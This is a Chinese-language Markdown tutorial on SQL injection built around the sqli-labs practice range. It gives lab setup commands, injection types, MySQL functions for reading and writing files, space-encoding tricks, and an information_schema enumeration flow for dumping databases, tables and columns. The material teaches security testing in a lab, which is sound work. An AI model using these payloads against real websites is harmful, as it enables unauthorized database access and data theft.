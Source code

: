# SQL注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 环境需求
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[SQLi在线靶场](https://sqli-labs.htctf.com/)、[SQLi Github](https://github.com/Audi-1/sqli-labs)、Docker(镜像)、Hackbar插件、域名采集器、Google Hack
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docker run -dt --name sqli -p 80:80 --rm acgpiano/sqli-labs
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;docker exec -it imageID /bin/bash
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;run 运行 -dt 守护进程 --name 别名 --rm 停止运行删除进程
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 关于SQLinject
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**SQL:** 是一门ANSI标准的计算机语言，用来**访问**和**操作**数据库系统，SQL语句用来取回和更新数据库中的数据
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**原因:** 开发人员对从web表单、cookie、输入参数等收到的值传递给SQL查询之前进行过滤控制
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**原理:** SQL代码插入或添加到应用(用户)的输入参数中，并且参数在后台SQL服务器中解析和执行
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**危害:** 获取数据库内容、读取文件信息、Getshell(root权限)
![](/assets/QQ20190218-174536@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 注入类型
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**1.按注入位置:**
![](/assets/WX20190307-142137@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**2.按参数类型:** 
![](/assets/WX20190307-143314@2x.png)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**PS: 搜索型注入:** and '%1'='%1，select * from users where name like '%tom%'
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**3.按返回结果:**回显注入、无显注入 
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 查看数据库类型
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**代码查询**:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**报错显示**:
![](/assets/QQ20190218-181926@2x.png)
![](/assets/QQ20190218-181837@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x05 函数语句
```sql
    数据库: database()          用户: user()  
    数据库版本: version()
    数据库路径: @@datadir
    操作系统: @@version_compile_os
                 
    查询列数: order by,采用二分法
    联合查询: union,注意列数匹配
    连接函数: concat(),concat_ws(),group_concat()，前两者返回一个数据，后者返回数列
    
    写文件: into outfile PATH，函数前构建文件   
    读文件: load_file(PATH)  
    
    %a0代替空格、%27代表 ' 
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x06 注入流程(MySQL)
```sql
    判断注入点: '  and 1=1/2  or 1=1/2,看页面反馈,但是使用or判断时,要设置为错误参数
    查询列数: order by 
    核心注入句:
        查库: select schema_name from information_schema.shcemata
        查表: select table_name from information_schema.tables where table_schema='库名'
        查列: select column_name from information_schema.columns where table_name='表名'
        查数据: select 列 from 库名.表名
```








